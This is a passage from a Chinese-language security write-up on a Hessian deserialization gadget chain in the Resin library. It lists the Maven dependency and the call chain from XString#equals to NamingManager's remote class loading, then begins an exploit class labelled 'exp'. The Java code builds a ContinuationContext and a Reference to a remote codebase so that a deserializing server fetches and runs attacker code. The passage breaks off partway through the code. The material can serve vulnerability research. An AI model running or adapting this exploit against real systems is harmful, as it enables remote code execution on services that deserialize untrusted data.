 ## Resin

引入依赖，这里引入的依赖版本好像要正确，否则会报错显示`com.caucho.Naming`不存在，至于每个版本的对应，我也不清楚。：

```bash
<dependency>
            <groupId>com.caucho</groupId>
            <artifactId>resin</artifactId>
            <version>4.0.64</version>
        </dependency>
```

```bash
Xstring#equals()->
Qname#toString()->
ContinuationContext#composeName()->
ContinuationContext#getTargetContext()->
NamingManager#getContext()->
NamingManager#getObjectInstance()->
NamingManager#getObjectFactoryFromReference()->
loadClass()
```

exp:

```bash
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.*;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Resin {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, NoSuchFieldException {
        String codebase="http://127.0.0.1:9999/";
        String clazz="siJdcpuR";

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("siJdcpuR", clazz,codebase));
        Context ctx = (Context) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx,"aiwin","aiwin1"); //_items要过for循环
        String unhash = unhash(qName.hashCode()); //将哈希值转换回原始数据的算法,放入到Xstring的值中,为了p.hash == hash
        XString xString = new XString(unhash);


```